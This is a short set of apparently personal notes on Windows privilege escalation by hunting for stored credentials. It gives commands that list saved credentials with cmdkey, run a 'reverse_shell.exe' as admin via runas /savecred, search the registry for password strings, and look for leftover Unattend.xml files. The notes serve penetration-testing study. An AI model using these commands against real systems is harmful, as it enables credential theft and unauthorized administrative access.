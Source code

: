 look for cleartext passwords or config files 

-----------

Saved Credentials : windows allows users to save their credentials we can list them using : cmdkey /list

you see any credentials worth trying, you can use them with the runas command and the /savecred option, as seen below.
runas /savecred /user:admin reverse_shell.exe

----

Registry keys: Registry keys potentially containing passwords can be queried using the commands below.
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

-----------

Unattend files : Unattend.xml files helps system administrators setting up Windows systems.

They need to be deleted once the setup is complete but can sometimes be forgotten on the system.  these files can be wordth reading

------------
   
